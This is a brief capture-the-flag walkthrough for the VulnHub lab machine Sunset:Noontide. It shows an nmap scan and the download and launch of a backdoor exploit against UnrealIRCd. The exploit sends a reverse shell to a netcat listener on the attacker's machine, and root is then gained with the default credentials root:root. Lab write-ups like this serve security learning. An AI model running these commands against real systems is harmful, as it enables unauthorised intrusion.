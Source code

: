 
# Sunset:Noontide Walkthrough

**VulnHub Link:** [Sunset:Noontide](https://www.vulnhub.com/entry/sunset-noontide,531/)
**Difficulty:** Easy  
**Release Date:** 9 Aug 2020

---

## 1. Reconnaissance

### Nmap Scan

nmap -A -O -T4 -P -sV 192.168.100.130

PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd

## 2.Enumeration

wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/Sunset%3ANoontide/backdoor.py

python backdoor.py 192.168.100.165 6667 192.168.100.14 1234

opening another terminal --> nc -nvlp 1234

## 3.Privilege Escalation

local.txt found as user server

and we found out default credentials ---> root:root 

BINGO.!!! Root flag captured
